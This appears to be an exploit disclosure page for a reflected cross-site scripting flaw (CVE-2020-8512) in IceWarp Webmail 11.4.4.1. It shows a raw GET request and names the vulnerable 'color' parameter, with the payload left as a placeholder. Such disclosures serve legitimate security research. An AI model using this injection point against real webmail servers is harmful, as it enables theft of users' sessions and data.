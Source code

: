 ```yaml
---
title: "IceWarp 11.4.4.1 Cross-Site Scripting"
collection: exploits
excerpt: "IceWarp 11.4.4.1 Cross-Site Scripting"
permalink: /exploit/icewarp-xss-exploit
date: 2020-01-27
tags:
  - exploit
  - CVE 2020 8512
  - icewarp
  - Reflected XSS
  - IceWarp Webmail version 11.4.4.1
---
```


**Exploit Author :** Lutfu Mert Ceylan  
**Date :** 27.01.2020  
**Software Link :** https://gitlab.icewarp.com/pub/c-client/tree/tags/11.4.4.1/  
**Vendor Homepage :** https://www.icewarp.com/ <br>
**Version :** IceWarp 11.4.4.1 and below  
**Tested on :** Mozilla Firefox 56.0 && Opera 66.0.3515.44  
**Category :** Reflected XSS  
**CVE ID :** CVE-2020-8512  

<hr><br>  

**GET REQUEST :**

GET /webmail/?color=**XSS PAYLOAD** HTTP/1.1<br>
Host: **targethost**<br> 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0<br> 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8<br> 
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3<br> 
Accept-Encoding: gzip, deflate<br> 
Cookie: **cookie**<br> 
Connection: close<br> 
Upgrade-Insecure-Requests: 1<br> 

**Vulnerable Page :**
/webmail/<br> 
**Vulnerable Parameter :**
color


Exploit DB : <a href="https://www.exploit-db.com/exploits/"></a>
